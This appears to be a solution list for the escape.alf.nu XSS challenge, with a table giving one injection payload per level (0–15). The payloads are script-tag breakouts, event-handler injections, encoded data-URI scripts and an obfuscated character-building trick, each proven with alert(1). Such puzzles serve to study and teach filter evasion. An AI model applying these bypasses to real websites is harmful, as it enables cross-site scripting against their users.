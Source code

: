 Escape.alf.nu
=============

http://escape.alf.nu

level   | injection 
--------|----------
0       | `",alert(1),"`
1       | `\",alert(1))</script>`
2       | `</script><body onload=alert(1)>`
3       | `%22,alert(1),%22`
4       | `[[x|""/src/onerror=alert(1)>]]`
5       | `[[x|http://src/onerror=alert(1)>]]`
6       | `Comment#><body/onload=alert(1)>`
7       | `'#'&alert(1)//`
8       | `</SCRIPT><SCRIPT SRC=DATA:,%61%6c%65%72%74(1)>`
9       | `",1[$=(_=[]+{}+!0+!1+1/0)[5]+_[1]+_[25]+_[22]+(S=_[6])+(Q=_[16])+_[17]+_[5]+S+_[1]+Q][$](_[20]+_[21]+_[4]+Q+S+'(1)')(),"`
10      | `\74img/src/onerror=alert(1)\076`
11      | `</scrip</scriptt><script>alert(1)//`
12      | `'#'&alert(1)<!--`
13      | `name=’youWon’`
14      | `'<!--<script>';if((x={test:function(){Image=function(){alert(1)}}})/*`
15      | `<!--<script>#-->)/+alert(1)//`


